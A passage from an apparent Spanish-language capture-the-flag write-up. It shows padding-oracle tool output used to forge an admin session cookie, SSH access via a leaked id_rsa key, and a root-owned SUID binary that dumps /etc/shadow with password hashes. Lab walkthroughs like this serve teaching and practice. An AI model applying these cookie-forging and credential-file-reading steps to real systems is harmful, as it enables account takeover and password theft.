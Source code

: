 ```bash
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuXXXXXXXXXXXXXXXXXXxAAA
-------------------------------------------------------
```
Como podemos ver, hemos añadido un parámetro con nombre `-plaintext` que lo que hace **encriptar** lo que le pasemos como valor.

Nos damos cuenta de que nos ha generado una **cookie de sesión**.

La copiamos, la reemplazamos en la web y refrescamos la página:

![image](https://user-images.githubusercontent.com/67548295/132879379-218e0ced-495a-4363-b19c-3d99da4e01d1.png)

Y listo, ya seríamos usuario admin.

Para ingresar a la máquina sería de igual forma que en el [método 1](#metodo-1), habría que ingresar en el **hipervínculo** de la clave **id_rsa** y entrar por SSH.

# Root.txt

Enumerando el sistema me doy cuenta de que el directorio _home_ del usuario **Mitsos** hay un binario [SUID](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/){:target="\_blank"}{:rel="noopener nofollow"} con el usuario **root** como propietario.

Ejecutemoslo para ver que pasa:

```bash
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
